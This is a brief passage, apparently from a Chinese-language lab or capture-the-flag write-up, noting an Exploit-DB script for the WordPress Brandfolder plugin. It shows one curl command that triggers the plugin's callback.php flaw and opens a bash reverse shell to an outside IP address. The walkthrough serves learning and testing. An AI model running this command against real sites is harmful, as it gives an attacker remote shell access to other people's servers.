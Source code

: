 在exploitdb找到了漏洞利用脚本。

[![](assets/1704158243-cb3d5056bb7ea3d2b9578fc6deff5187.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213321-2a16dc14-a7e1-1.png)

[![](assets/1704158243-dbd43761f5a01c1e2dac73b4e9de8ada.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213329-2ee4c788-a7e1-1.png)

使用curl触发漏洞。

```plain
curl '127.0.0.1:8080/wp-content/plugins/brandfolder/callback.php?wp_abspath=/dev/shm/&cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.17.140/5444+0>%261"'
```

[![](assets/1704158243-5acc4d5af49defbb9451d00e53dd3a33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213344-38547ce6-a7e1-1.png)

